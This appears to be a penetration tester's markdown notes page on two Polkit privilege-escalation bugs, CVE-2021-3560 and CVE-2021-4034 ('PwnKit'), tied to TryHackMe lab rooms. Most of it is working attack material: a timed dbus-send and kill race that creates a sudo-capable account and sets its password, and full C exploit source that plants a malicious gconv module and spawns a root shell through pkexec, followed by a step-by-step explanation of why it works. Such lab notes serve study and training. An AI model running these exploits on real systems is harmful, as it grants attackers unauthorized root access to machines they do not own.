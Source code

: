 # Exploiting Polkit

## CVE-2021-3560

This bug is a combination of a race condition and bad error handling. Basically:

- Manually request an action that requires superuser access via DBus.
- Kill `dbus-daemon` *after* Polkit has received the message but *before* it responds (there's the race).
- Polkit requests the user ID associated with the message, but since DBus has restarted it can't reference the original message ID and responds with an error.
- Polkit mishandles the error, substituting 0 for the ID of the requesting user (there's the botched error handling).
- Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

Ubuntu fixed with with version `0.105-26ubuntu1.1` of the `policykit-1` package (the last vulnerable version was `0.105-26ubuntu1`).

- [TryHackMe: Polkit (CVE-2021-3560)](https://tryhackme.com/room/polkit)

### Exploitation

**(0)** Construct a message similar to the following:

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

- `string:attacker` - the name of the user to create.
- `string:"Pentester Account"` - the user "description" (GECOS field).
- `int32:1` - grant sudo access to the user.

**(1)** Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```bash
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

**(2)** DBus needs to be killed approximately *halfway* through this execution period. We *cannot* wait for the application to return, so instead we background it.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

**(3)** ID the created user.

```bash
id attacker
```

**(4)** Create a new password hash for the user.

```bash
openssl passwd -6 $PASSWORD
```

**(5)** Pull the same trick as in step 3, but with setting the created user's password.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there's *no* space between `User` and the ID, so you'll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string`  being passed in the user password hint.

**(6)** Log in as the new user (probably via `su`).

## CVE-2021-4034 ("Pwnkit")

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

*This version of the exploit will leave traces in the target's logs!*

Here's what happens on execution:

**(1)** The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.

**(2)** The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".

**(3)** The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 — so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.

**(4)** Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.

**(5)** Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.

**(6)** Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH… And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

- [TryHackMe: Pwnkit (CVE-2021-4034)](https://tryhackme.com/room/pwnkit)
- [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
- [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

